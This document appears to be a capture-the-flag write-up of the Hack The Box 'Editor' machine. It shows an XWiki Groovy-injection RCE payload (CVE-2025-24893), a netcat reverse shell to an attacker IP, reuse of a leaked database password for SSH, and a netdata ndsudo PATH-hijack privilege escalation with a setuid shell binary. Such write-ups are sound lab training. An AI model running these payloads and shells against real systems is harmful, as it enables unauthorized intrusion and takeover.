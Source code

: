 ```yaml
---
name: Editor
difficulty: easy
os: linux
platform: htb
date: 2025/08/11
releasedDate: 2099-12-31
userFlag: true
rootFlag: true

img: https://htb-mp-prod-public-storage.s3.eu-central-1.amazonaws.com/avatars/ba9dec0d022d3c3b6a96aa5dba4772c7.png
---
```


## Enumeration

We start by scanning the target machine for open ports using Nmap. We will use the `-p-` option to scan all ports and the `--open` option to filter out closed ports:

```bash
nmap -p- --open -sS --min-rate 5000 -n -Pn -vvv 10.10.11.80 -o allPorts
```
```
PORT     STATE SERVICE    REASON
22/tcp   open  ssh        syn-ack ttl 63
80/tcp   open  http       syn-ack ttl 63
8080/tcp open  http-proxy syn-ack ttl 63
```

We add dns resolution to our `/etc/hosts` file for easier access:

```bash
echo "10.10.11.80 editor.htb" | sudo tee -a /etc/hosts
```

Now we will scan the open ports with service version detection and script scanning using `-sC` and `-sV` options:

```bash
nmap -p 22,80,8080 -sCV editor.htb -oN targeted
```
```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3eea454bc5d16d6fe2d4d13b0a3da94f (ECDSA)
|_  256 64cc75de4ae6a5b473eb3f1bcfb4e394 (ED25519)
80/tcp   open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Editor - SimplistCode Pro
8080/tcp open  http    Jetty 10.0.20
| http-webdav-scan: 
|   WebDAV type: Unknown
|   Allowed Methods: OPTIONS, GET, HEAD, PROPFIND, LOCK, UNLOCK
|_  Server Type: Jetty(10.0.20)
| http-title: XWiki - Main - Intro
|_Requested resource was http://editor.htb:8080/xwiki/bin/view/Main/
|_http-server-header: Jetty(10.0.20)
| http-methods: 
|_  Potentially risky methods: PROPFIND LOCK UNLOCK
|_http-open-proxy: Proxy might be redirecting requests
| http-cookie-flags: 
|   /: 
|     JSESSIONID: 
|_      httponly flag not set
| http-robots.txt: 50 disallowed entries (15 shown)
| /xwiki/bin/viewattachrev/ /xwiki/bin/viewrev/ 
| /xwiki/bin/pdf/ /xwiki/bin/edit/ /xwiki/bin/create/ 
| /xwiki/bin/inline/ /xwiki/bin/preview/ /xwiki/bin/save/ 
| /xwiki/bin/saveandcontinue/ /xwiki/bin/rollback/ /xwiki/bin/deleteversions/ 
| /xwiki/bin/cancel/ /xwiki/bin/delete/ /xwiki/bin/deletespace/ 
|_/xwiki/bin/undelete/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We can explore the web app running on port 8080, which is an XWiki instance. The main page provides a brief introduction to XWiki, and we can see that it has a login page.

There we can see the version running, which is `XWiki Debian 15.10.8`.

If we search the web, we can find a RCE (Remote Code Execution) vulnerability for this version, CVE-2025-24893. 

We can clone the exploit repository from GitHub:

```bash
git clone https://github.com/gunzf0x/CVE-2025-24893
```
## User Exploitation

We can then navigate to the cloned directory and run the exploit:

```bash
cd CVE-2025-24893
python3 CVE-2024-24893.py -t http://editor.htb:8080/ -c "ping 10.10.14.216"
```
```
[*] Attacking http://editor.htb:8080/
[*] Injecting the payload:
http://editor.htb:8080/xwiki/bin/get/Main/SolrSearch?media=rss&text=%7D%7D%7B%7Basync%20async%3Dfalse%7D%7D%7B%7Bgroovy%7D%7D%22ping%2010.10.14.216%22.execute%28%29%7B%7B/groovy%7D%7D%7B%7B/async%7D%7D                             
[*] Command executed

~Happy Hacking
```

We can check our listener and verify if we received a ping from the target with `tcpdump -i tun0 icmp`.

Next we try to get a reverse shell. We can use the same command but change the payload to get a reverse shell:

```bash
python3 CVE-2024-24893.py -t http://editor.htb:8080/ -c "busybox nc 10.10.14.216 4443 -e /bin/bash"```
```

And we run a listener on our machine:

```bash
nc -lvnp 4443
```

We now have a reverse shell on the target machine. We can check our user by running:

```bash
whoami
```
```
xwiki
```

We can find a possible credential in `etc/xwiki/hibernate.cfg.xml`
```xml
<property name="hibernate.connection.password">theEd1t0rTeam99</property>
```

We try connecting via SSH using the found credentials and the user `oliver`:

```bash
ssh oliver@editor.htb
whoami
```
```
oliver
```

We find the user flag in the home directory:

```bash
cat /home/oliver/user.txt
```
```
user flag value
```
## Root Exploitation

We can check if the user `oliver` has sudo privileges:

```bash
sudo -l
```
```
[sudo] password for oliver: 
Sorry, user oliver may not run sudo on editor.
```

We check the groups the user `oliver` belongs to:

```bash
id
```
```
uid=1000(oliver) gid=1000(oliver) groups=1000(oliver),999(netdata)
```

We find `netdata` is installed in `editor.htb` and it has a plugin called `ndsudo` that allows users to run commands as root. 
```bash
find / -perm -4000 2>/dev/null
```
```
/opt/netdata/usr/libexec/netdata/plugins.d/cgroup-network
/opt/netdata/usr/libexec/netdata/plugins.d/network-viewer.plugin
/opt/netdata/usr/libexec/netdata/plugins.d/local-listeners
/opt/netdata/usr/libexec/netdata/plugins.d/ndsudo
/opt/netdata/usr/libexec/netdata/plugins.d/ioping
/opt/netdata/usr/libexec/netdata/plugins.d/nfacct.plugin
/opt/netdata/usr/libexec/netdata/plugins.d/ebpf.plugin
```

We find out `netdata` installed version is `v1.45.2`, which is vulnerable to a privilege escalation exploit (CVE-2024-32019).
This vulnerability takes advantage of the `ndsudo` plugin, which is a SUID root binary intended to securely execute a limited set of system commands (like nvme) on behalf of non-root users.
This plugin is misconfigured, allowing users to change the PATH environment variable and execute arbitrary binaries with root privileges.

We create a C code named `nvme.c` in our local machine:

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main() {
    setuid(0);
    setgid(0);
    execl("/bin/bash", "bash", NULL);
    return 0;
}
```

We set up a listener on port 4444 on `editor.htb`:

```bash
nc -lvnp 4444 > nvme
```

We compile it in our machine and transfer it to the target machine:

```bash
gcc nvme.c -o nvme
cat nvme | nc editor.htb 4444
```

We prepare the exploit environment:
```bash
mkdir -p /tmp/fakebin
mv nvme /tmp/fakebin/
chmod +x /tmp/fakebin/nvme
export PATH=/tmp/fakebin:$PATH
which nvme
```
```
/tmp/fakebin/nvme
```

We trigger the exploit by running:

```bash
/opt/netdata/usr/libexec/netdata/plugins.d/ndsudo nvme-list
```

This way, ndsudo executes our `nvme` binary with root privileges, giving us a root shell:

```bash
whoami
```
```
root
```

We can find the root flag in the root directory:

```bash
cat /root/root.txt
```
```
root flag value
```

## Conclusion
We successfully exploited the XWiki vulnerability to gain a reverse shell, escalated our privileges to the user `oliver`, and finally exploited the `ndsudo` vulnerability to obtain root access on the target machine. This write-up demonstrates the importance of keeping software up-to-date and properly configured to mitigate such vulnerabilities. Happy hacking!
